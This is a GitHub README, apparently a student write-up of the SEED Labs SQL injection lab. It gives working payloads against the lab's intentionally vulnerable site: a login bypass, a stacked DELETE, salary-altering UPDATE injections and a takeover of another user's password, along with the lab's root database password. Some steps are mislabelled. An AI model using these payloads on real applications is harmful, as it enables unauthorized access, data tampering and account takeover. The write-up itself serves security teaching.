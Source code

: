 # seedlab-SQL-Injection-Attacks


### Task 1:

Log in MYSQL:


      mysql -u root -pseedubuntu
		
      mysql> use Users;
		
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/1.PNG)

      mysql> show tables;
     
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/2.PNG)



Use such a SQL query:

      select * from credential where Name='Alice';


![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/6.PNG)




### Task 2:
##### Task 2.1
	
- USERNAME: "Admin' #"
	
- PASSWORD: "" (here is password is optional)


![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/7.PNG)

We will result in SQL Query


      SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		  
      FROM credential
		  
      WHERE name='Admin' #' && password='xyz'


##### Task 2.2
1- Write Code on Terminator in Seed Lab:
    
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
2- Copy the HTML code.

3- Make a new file in location "file:///home/seed/Documents/temp.html"

4. Run this location on browser



![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/8.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/9.PNG)

##### Task 2.3:
inject statment to append a row to current database:

    	'1=1; DELETE from credential where name='Alice';
	
After running query, go to browser and input as:
	
  
  - USERNAME: "'1=1; DELETE from credential where name='Alice';"
	
  
  - PASSWORD: "" (blank field)




![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/13.PNG)


### Task 3
Run This  "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

##### Task 3.1
1- Login as Username= "Alice'#" && Password = "", 
	
2- Then edit the link to browser
  	http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  
3- Update Phone Number as ', Salary=1000000 and save.


##### Task 3.2

1- Login as Username= 'Boby' #' and then open edit profile
	
2- Update Nick Name: ',Salary=0 and remaining unchanges

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/14.PNG)

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/15.PNG)
	
Login as Alice
	
Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  
      Update Nick Name: ', Salary=1 where name='Boby' #

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/18.PNG)
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/19.PNG)

##### Task 3.3:	
We're login as Boby but change password of Alice

![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/16.PNG)

Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Assume we want to change ```Boby``` password as ```Annie123```. First, we should get SHA1 value of our new password via Terminal using Command
```
  echo "Annie123"|sha1sum
 ```
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/21.PNG)

Than Modify Nick Name as ', password='2672275fe0c456fb671e4f417fb2f9892c7573ba' where name='Boby' # and save.
![mysql query](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/22.PNG)

Now login information of "Boby" 
- USERNAME : Boby
- PASSWORD : Annie123
